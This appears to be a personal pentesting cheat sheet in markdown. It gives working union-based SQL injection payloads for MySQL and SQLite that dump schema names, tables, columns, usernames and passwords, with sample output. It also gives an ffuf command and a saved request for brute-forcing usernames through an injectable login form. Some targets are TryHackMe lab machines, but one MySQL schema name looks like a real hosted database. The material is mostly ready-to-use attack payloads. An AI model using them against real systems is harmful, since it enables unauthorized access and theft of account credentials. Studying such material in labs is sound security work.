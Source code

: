 
### UNION BASED SQLI
info gathering 
```
1'union select 1,2,3,databases(),user(),version(),7 -- -
```

tables name dump
```
'union select 1,2,3,4,(SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema = 'host1244535_siska'),version(),7 -- - 
```

column dump
```
'union select 1,2,3,4,(SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_schema = 'host1244535_siska'),version(),7 -- -
```

table data dump
```
'union select 1,2,3,4,(SELECT GROUP_CONCAT(username) from host1244535_siska.accounts ),version(),7 -- -
```
or
```
'union select 1,2,3,4,(SELECT username from host1244535_siska.accounts ),version(),7 -- -
```

ref:-
https://www.hackingloops.com/sql-injection-union-based-exploitation-part-2-the-injection/
https://book.hacktricks.xyz/pentesting-web/sql-injection



### Username Brutforce with FFUF

simple request
![Alt text](image.png)

save  req to req.txt
```
POST / HTTP/1.1
Host: 10.10.128.5
Content-Length: 34
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.128.5
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.141 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.128.5/
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

username=FUZZ'AND+1=1+--+-&password=a
```

run below FFUF command
```
ffuf -request req.txt -u http://10.10.128.5/ -w ~/Tools/SecLists/Usernames/xato-net-10-million-usernames-dup.txt
```
![[Pasted image 20230903233728.png]]
NOTE:- we might need to pass -u with url to use http or https


### SQLITE Sql injection

Useful link to follow:-
https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf
https://tryhackme.com/room/unstabletwin#

##### 1st step SIMPLE ENUM

```sqlite
username=admin&password=aa'union select 1,sqlite_version() -- -
```

```json
[
  [
    1, 
    "3.26.0"
  ]
]

```

##### 2nd step  TABLE NAME EXTRACTION

```
username=admin&password=aa'union select 1,group_concat(tbl_name) from sqlite_master where type='table' and tbl_name not like 'sqlite_%' -- -
```

```json
[
  [
    1, 
    "users,notes"
  ]
]

```

##### 3rd step COLUMN NAME EXTRACTION

```sqlite
username=admin&password=aa'union select 1,sql from sqlite_master where type!='meta' and sql not null and name not like 'sqlite_%' and name='notes' limit 3 -- -
```

```sql
[
	[
		1,
		"CREATE TABLE notes ( id INTEGER UNIQUE, user_id INTEGER, note_sql INTEGER, notes TEXT,PRIMARY KEY( id ))"
	]
]
```


##### 4rd step DATA EXTRACTION FROM COLUMN

```sqlite
username=admin&password=aa'union select 1,username from users limit 10 -- -
```

```json
[
  [
    1, 
    "julias"
  ], 
  [
    1, 
    "linda"
  ], 
  [
    1, 
    "marnie"
  ], 
  [
    1, 
    "mary_ann"
  ], 
  [
    1, 
    "vincent"
  ]
]
```

```sqlite
username=admin&password=aa'union select (group_concat(password)),(group_concat(username)) from users limit 1 -- -
```

```json
[
  [
    "continue...,Red,Orange,Green,Yellow ", 
    "mary_ann,julias,vincent,linda,marnie"
  ]
]
```
